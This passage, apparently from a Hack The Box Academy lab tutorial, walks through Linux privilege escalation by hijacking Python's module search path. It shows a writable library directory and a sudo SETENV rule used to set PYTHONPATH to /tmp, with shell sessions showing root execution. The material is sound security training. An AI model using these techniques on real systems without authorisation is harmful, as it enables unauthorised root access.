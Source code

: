 Let us once again run the `mem_status.py` script using `sudo` like in the previous example.

### Privilege Escalation via Hijacking Python Library Path
```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```

As we can see from the output, we have successfully gained execution as `root` through hijacking the module's path via a misconfiguration in the permissions of the `/usr/lib/python3.8` directory.

## PYTHONPATH Environment Variable

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import. If a user is allowed to manipulate and set this variable while running the python binary, they can effectively redirect Python's search functionality to a user-defined location when it comes time to import modules. We can see if we have the permissions to set environment variables for the python binary by checking our `sudo` permissions:

### Checking Sudo Permissions
```shell-session
htb-student@lpenix:~$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

In the example we can run `/usr/bin/python3` under the permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV:` flag being set. With the sudo permissions, using the `/usr/bin/python3` binary, we can effectively set any environment variable under the context of our running program. Let's try to do so now using the `psutil.py` script from the last section.

### Privilege Escalation using PYTHONPATH Environment Variable
```shell-session
htb-student@lpenix:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

We put the script that runs the system command in `/tmp`. We then call `/usr/bin/python3` to run `mem_stats.py`, and we specify the the `PYTHONPATH` variable contain the `/tmp` directory, so that it forces Python to search there for the `psutil` module to import. As we can see, we once again have successfully run our script under the context of root.
